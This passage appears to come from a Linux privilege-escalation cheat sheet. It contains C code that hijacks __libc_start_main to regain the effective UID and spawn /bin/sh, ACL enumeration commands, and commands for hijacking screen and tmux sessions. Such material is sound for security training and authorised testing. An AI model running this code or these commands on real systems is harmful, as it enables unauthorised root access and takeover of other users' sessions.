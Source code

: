 #include<stdlib.h>
#define SHELL "/bin/sh"
​
int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
 char *file = SHELL;
 char *argv[] = {SHELL,0};
 setresuid(geteuid(),geteuid(), geteuid());
 execve(file,argv,0);
}
Capabilities
Linux capabilities provide a subset of the available root privileges to a process. This effectively breaks up root privileges into smaller and distinctive units. Each of these units can then be independently be granted to processes. This way the full set of privileges is reduced and decreasing the risks of exploitation.
Read the following page to learn more about capabilities and how to abuse them:

Linux Capabilities
/linux-unix/privilege-escalation/linux-capabilities
ACLs
ACLs are a second level of discretionary permissions, that may override the standard ugo/rwx ones. When used correctly they can grant you a better granularity in setting access to a file or a directory, for example by giving or denying access to a specific user that is neither the file owner, nor in the group owner (from here).
Give user "kali" read and write permissions over a file:

setfacl -m u:kali:rw file.txt
Get files with specific ACLs from the system:

getfacl -t -s -R -p /bin /etc /home /opt /root /sbin /usr /tmp 2>/dev/null
Open shell sessions
In old versions you may hijack some shell session of a different user (root).
In newest versions you will be able to connect to screen sessions only of your own user. However, you could find interesting information inside of the session.

screen sessions hijacking
List screen sessions

screen -ls

Attach to a session

screen -dr <session> #The -d is to detacche whoever is attached to it
screen -dr 3350.foo #In the example of the image
tmux sessions hijacking
Apparently this was a problem with old tmux versions. I wasn't able to hijack a tmux (v2.1) session created by root from a non-privileged user.

List tmux sessions

tmux ls
ps aux | grep tmux #Search for tmux consoles not using default folder for sockets
tmux -S /tmp/dev_sess ls #List using that socket, you can start a tmux session in that socket with: tmux -S /tmp/dev_sess
